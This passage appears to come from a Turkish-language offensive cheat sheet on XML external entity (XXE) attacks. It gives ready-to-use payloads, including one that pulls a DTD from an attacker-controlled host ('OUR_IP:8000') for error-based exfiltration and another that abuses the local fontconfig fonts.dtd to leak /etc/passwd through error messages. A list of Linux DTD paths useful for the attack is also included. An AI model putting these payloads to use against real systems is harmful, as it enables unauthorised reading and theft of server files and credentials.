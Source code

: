 ```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

Bu yöntem dosyaların kaynak kodunu okumak için de kullanılabilir. Tek yapmamız gereken DTD kodumuzdaki dosya adını okumak istediğimiz dosyayı gösterecek şekilde değiştirmektir (örneğin “`file:///var/www/html/submitDetails.php`”). Ancak, bu yöntem kaynak dosyaları okumak için önceki yöntem kadar güvenilir değildir, çünkü uzunluk sınırlamaları olabilir ve bazı özel karakterler yine de onu bozabilir.

### 99- Error Based - Using Local DTD File

Error based exfiltration mümkünse, birleştirme hileleri yapmak için hala local bir DTD'ye güvenebilirsiniz. Hata mesajının dosya adını içerdiğini doğrulamak için payload.

Amaç: Sistemde zaten var olan bir **yerel DTD dosyasını** (`fonts.dtd`) kullanarak **ek DTD içerikleri enjekte etmek**, ardından `file:///etc/passwd` gibi dosyaları **error üzerinden dışarıya sızdırmak.**

```xml
<!DOCTYPE root [
    <!ENTITY % local_dtd SYSTEM "file:///abcxyz/">
    %local_dtd;
]>
<root></root>
```

[GoSecure/dtd-finder](https://github.com/GoSecure/dtd-finder/blob/master/list/xxe_payloads.md) - DTD'leri listeler ve bu local DTD'leri kullanarak XXE payload'ları oluşturur.

#### Linux Local DTD

Linux sistemlerinde zaten saklı olan DTD dosyalarının kısa listesi; bunları `locate .dtd` ile listeleyin:

```bash
/usr/share/xml/fontconfig/fonts.dtd
/usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd
/usr/share/xml/svg/svg10.dtd
/usr/share/xml/svg/svg11.dtd
/usr/share/yelp/dtd/docbookx.dtd
```

```xml
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">
    <!ENTITY % constant 'aaa)>
            <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
            <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///patt/&#x25;file;&#x27;>">
            &#x25;eval;
            &#x25;error;
            <!ELEMENT aa (bb'>
    %local_dtd;
]>
<message>Text</message>
```

